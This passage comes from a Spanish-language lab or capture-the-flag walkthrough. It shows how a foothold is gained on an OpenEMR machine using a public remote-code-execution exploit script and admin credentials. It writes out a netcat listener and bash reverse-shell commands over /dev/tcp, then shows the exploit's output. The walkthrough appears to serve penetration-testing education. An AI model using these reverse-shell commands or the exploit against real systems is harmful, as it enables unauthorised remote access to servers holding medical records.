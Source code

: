 Leyendo el script encuentro un comentario con un ejemplo de uso

```text
Example Usage:
- python openemr_rce.py http://127.0.0.1/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'
```

# FOOTHOLD

Como con el script encontrado se puede ejecutar comandos de manera remota puedo entablar una consola de comandos remota a mi maquina

Con netcat abro el puerto 1337

Parametros:
* -l        modo escucha
* -n        no utilizar dns
* -v        modo explicativo
* -p 1337   puerto a utilizar

```bash
$ nc -lnvp 1337
```

En otra terminal ejecuto el exploit para entablar la consola remota haciendo que la maquina victima ejecute el siguiente comando 

```bash
bash -i >$ /dev/tcp/IP/PORT 0>&1
```

```bash
$ python2 exploit.py http://192.168.0.219/openemr -u admin -p Monster123 -c 'bash -i >& /dev/tcp/192.168.0.36/1337 0>&1'

 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with admin:Monster123
[$] Injecting payload
[$] Payload executed
```

## Tratamiento de la TTY
